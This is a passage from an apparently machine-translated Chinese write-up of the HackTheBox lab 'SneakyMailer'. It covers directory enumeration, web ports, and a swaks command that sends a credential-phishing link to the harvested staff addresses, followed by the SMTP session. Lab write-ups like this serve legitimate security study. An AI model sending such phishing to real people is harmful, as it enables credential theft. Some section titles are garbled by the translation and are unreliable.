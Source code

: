     /img (Status: 301)
    /css (Status: 301)
    /team.php (Status: 200)
    /js (Status: 301)
    /vendor (Status: 301)
    /pypi (Status: 301)
    ===============================================================
    2020/07/11 15:47:23 Finished
    ===============================================================
    

这里唯一有趣的事情是 .这当然与页面中有关PyPI的说明有关。不幸的是，访问只是返回403禁止。`/pypi``/pypi`

### 开发潜行者 - TCP 80

这个网站看起来完全相同：

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20200712112129070.png) 

### 网站 - TCP 8080

访问 TCP 8080 将返回默认的 NGINX 页面：

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20200713064046492.png) 

我尝试通过主机名和暴力破解目录访问，但没有找到任何东西。当我有更多信息时，我必须稍后再回到这一点。

## 壳牌作为万维数据

### 网络钓鱼信条

鉴于此框的主题，使用电子邮件列表发送网络钓鱼是有意义的。我就像在[《终局之战：Xen](https://0xdf.gitlab.io/2020/06/17/endgame-xen.html#phishing-for-creds)》中一样使用。我可以包含带有选项的收件人列表，以逗号分隔：`swaks``--to`

    root@kali# swaks --to $(cat emails | tr '\n' ',' | less) --from test@sneakymailer.htb --header "Subject: test" --body "please click here http://10.10.14.42/" --server 10.10.10.197        [117/282]
    === Trying 10.10.10.197:25...                 
    === Connected to 10.10.10.197.           
    <-  220 debian ESMTP Postfix (Debian/GNU)    
     -> EHLO kali                                  
    <-  250-debian                                   
    <-  250-PIPELINING                            
    <-  250-SIZE 10240000                            
    <-  250-VRFY                                
    <-  250-ETRN                               
    <-  250-STARTTLS                          
    <-  250-ENHANCEDSTATUSCODES               
    <-  250-8BITMIME                              
    <-  250-DSN                                 
    <-  250-SMTPUTF8                                  
    <-  250 CHUNKING                            
     -> MAIL FROM:<test@sneakymailer.htb>       
    <-  250 2.1.0 Ok                            
     -> RCPT TO:<tigernixon@sneakymailer.htb>
    <-  250 2.1.5 Ok
     -> RCPT TO:<garrettwinters@sneakymailer.htb>
    <-  250 2.1.5 Ok
     -> RCPT TO:<ashtoncox@sneakymailer.htb>
    <-  250 2.1.5 Ok
    ...[snip]...
     -> RCPT TO:<donnasnider@sneakymailer.htb>
    <-  250 2.1.5 Ok
     -> DATA
    <-  354 End data with <CR><LF>.<CR><LF>
     -> Date: Sun, 12 Jul 2020 10:55:55 -0400